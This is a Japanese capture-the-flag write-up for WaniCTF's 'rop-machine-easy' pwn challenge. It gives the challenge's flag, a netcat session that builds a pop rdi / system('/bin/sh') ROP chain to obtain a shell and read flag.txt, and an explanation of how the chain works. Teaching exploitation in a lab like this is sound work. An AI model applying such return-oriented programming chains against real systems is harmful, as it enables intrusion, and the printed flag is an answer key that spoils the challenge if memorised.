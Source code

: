 # rop-machine-easy [pwn]
## 問題文

```
nc rop-easy.pwn.wanictf.org 9003
```

### ヒント

+ ropでsystem("/bin/sh")を実行して下さい。
+ "/bin/sh"のアドレスは提供されています
+ rop machineの使い方->[wani-hackase/rop-machine](https://github.com/wani-hackase/rop-machine/)

### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)

### gccのセキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ Stack Smash Protection (SSP)有効
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG

```
FLAG{this-is-simple-return-oriented-programming}
```

## 解法

### はじめに

まずはrop-machineの動作を理解して下さい。
- [wani-hackase/rop-machine](https://github.com/wani-hackase/rop-machine/)

解法例は以下になります。

```
$ nc rop-easy.pwn.wanictf.org 9003

"/bin/sh" address is 0x404070

[menu]
1. append hex value
2. append "pop rdi; ret" addr
3. append "system" addr
8. show menu (this one)
9. show rop_arena
0. execute rop
> 2
"pop rdi; ret" is appended
> 1
hex value?: 404070
0x0000000000404070 is appended
> 3
"system" is appended
> 0
     rop_arena
+--------------------+
| pop rdi; ret       |<- rop start
+--------------------+
| 0x0000000000404070 |
+--------------------+
| system             |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{this-is-simple-return-oriented-programming}
^C
$
```

### 解説

1問目のnetcatから正答者数が一気に40\%以下になってしまって開催中から初心者向けとしてはやっちまった感を感じてしまって落ち込んでしまった問題です。
rop arenaにアドレスを追加して行ってexecute ropをすると先頭からプログラムが実行されます。

作らなければならなないropは
```
+--------------------+
| pop rdi; ret       |<- rop start
+--------------------+
| 0x0000000000404070 |
+--------------------+
| system             |
+--------------------+
```
になります。
`0x404070`は`/bin/sh`が入っているアドレスになります。
これを実行するとC言語で書くと
```
	system("/bin/sh");
```
と等価になります。
`"/bin/sh"`の部分は実際は`/bin/sh`という文字列が格納されているメモリのアドレスになるのでC言語では
```
	system(0x404070);
```
が呼ばれています。

ROPでは、まず、`pop rdi; ret`が呼ばれると、`pop rdi`でスタックに積まれている`0x404070`がRDIレジスタに入って`ret`で次の`system`を実行します。
RDIは、`system`関数が実行される時の第1引数の役割を果たします。

解説書いてて思ったんですが、命令レベルで関数呼び出しがどうなっているかが分かる問題があった方が良かったかもですね．．．

ROPの挙動は去年のWaniCTF'20でも解説していますのでこちらをご参照下さい。
- [wanictf2020-writeup/pwn/06-rop-func-call at master · wani-hackase/wanictf2020-writeup](https://github.com/wani-hackase/wanictf2020-writeup/tree/master/pwn/06-rop-func-call)
ただ、これも読み直してみると難しいですね．．．
ROPの分かりやすい説明はどうすればいいのかなぁ．．．
